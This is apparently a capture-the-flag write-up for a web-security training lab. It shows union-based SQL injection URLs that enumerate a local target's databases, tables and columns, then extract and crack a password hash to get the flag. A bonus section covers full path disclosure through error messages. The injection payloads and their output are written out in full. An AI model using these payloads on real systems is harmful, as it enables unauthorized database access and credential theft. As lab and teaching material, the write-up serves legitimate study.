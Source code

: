 # http://192.168.99.100/?page=member&id=1&Submit=Submit

### getting current database name and listing all databases:

`http://192.168.99.100/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit`

##### result:

```
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey
```

so current database is `Member_Sql_Injection`,
the other databases are `Member_Brute_Force`, `Member_guestbook`, `Member_images`, `Member_survey`



### getting a list of tables in current database:


`http://192.168.99.100/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit`

##### result:

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03
```

so our database has a table called `users`


### listing all column names and types:
`http://192.168.99.100/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit`

##### result:

```
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)
```

so we have the columns `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`

### getting the juicy info:

`http://192.168.99.100/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit`


##### result:

```
ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```


### solution:
googling the hash `5ff9d0165b4f92b14994e5c685cdce28` produces the original string `FortyTwo`

as per instructions SHA-256 of `fortytwo` is:

#### `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

we have the flag, great success


#

### bonus: full path disclosure vulnerability


consider this link: `http://192.168.99.100/?page=member&id=1&Submit=Submit`

if we change the name of the `id` parameter to an anything else, then the application reveals its internal directory structure

```sh
e1z2r10p4% curl -s -L 'http://192.168.99.100/?page=member&ida=1&Submit=Submit' -o - | tail -n 2
Notice: Undefined index: id in /var/www/html/includes/member.inc.php on line 10
<pre>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1</pre>
```

this also makes it evident that the rest of the pages are stored in the same folder and have a similar name pattern:

|url|file|
|-|-|
/index.php?page=member|/var/www/html/includes/member.inc.php
/index.php?page=upload|/var/www/html/includes/upload.inc.php
/index.php?page=survey|/var/www/html/includes/survey.inc.php
/index.php?page=signin|/var/www/html/includes/signin.inc.php


... you get the idea

you can verify by opening 

`http://192.168.99.100/includes/default.inc.php` or

`http://192.168.99.100/includes/survey.inc.php` ... etc

